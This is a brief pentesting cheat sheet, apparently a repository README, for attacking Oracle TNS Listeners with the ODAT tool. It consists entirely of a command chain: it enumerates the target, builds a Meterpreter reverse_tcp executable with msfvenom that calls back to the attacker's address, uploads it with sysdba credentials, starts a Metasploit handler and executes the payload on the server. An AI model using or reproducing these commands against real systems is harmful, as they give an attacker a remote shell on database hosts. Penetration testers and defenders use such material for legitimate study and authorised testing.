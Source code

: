 # Oracle TNS Listener pentesting

### Tool: https://github.com/quentinhardy/odat/releases/

### Example usage:

#### 1) 

    ./odat.py all -s IP_ADDRESS

#### 2) 

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=OUR_IP LPORT=PORT -f exe > malicious.exe

#### 3) 

    ./odat.py utlfile -s IP_ADDRESS -U USER -P PASSWORD -d SID --sysdba --putFile c:/ malicious.exe malicious.exe

#### 4) 

    use exploit/multi/handler (Metasploit)

#### 5)  

    ./odat.py externaltable -s IP_ADDRESS -U USER -P PASSWORD -d SID --sysdba --exec c:/ malicious.exe
